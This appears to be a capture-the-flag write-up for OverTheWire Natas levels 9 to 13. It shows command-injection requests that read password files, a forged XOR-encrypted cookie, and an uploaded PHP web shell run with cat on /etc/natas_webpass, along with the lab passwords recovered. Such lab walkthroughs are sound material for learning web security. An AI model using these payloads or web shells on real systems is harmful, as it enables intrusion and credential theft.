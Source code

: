 ### lvl 9-10

```html
GET /?needle=c+/etc/natas_webpass/natas10+and+&submit=Search HTTP/1.1
/etc/natas_webpass/natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

### lvl 10-11

```html
GET /?needle=c+/etc/natas_webpass/natas11+and+&submit=Search HTTP/1.1
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

### lvl 11-12

```php
//looking at the source code:
//$tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
//now we have to send the cookie with these parameters
//	array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");
//and using known plaintext xor attack key was extracted: qw8J
$defaultdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");
echo base64_encode(xor_encrypt(json_encode($defaultdata)))
ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
//data is set with above cookie
//The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
```

### lvl 12-13

```php
//viewing the intercepted request in bursuite we have a hidden html input called filename
//filename is edited to a.php and i uploaded a php file with content
<? php system($_GET['cmd'];) ?>
//and uploaded it and send a get request 

```

```html
GET /upload/g1gf1ul4d8.php?cmd=cat+/etc/natas_webpass/natas13 HTTP/1.1
Host: natas12.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxMjpFRFhwMHBTMjZ3TEtIWnkxckRCUFVaazBSS2ZMR0lSMw==
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ne;q=0.8
Cookie: __utma=176859643.472868426.1590939308.1590939308.1591176859.2; __utmc=176859643; __utmz=176859643.1590939308.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none)
Connection: close
```
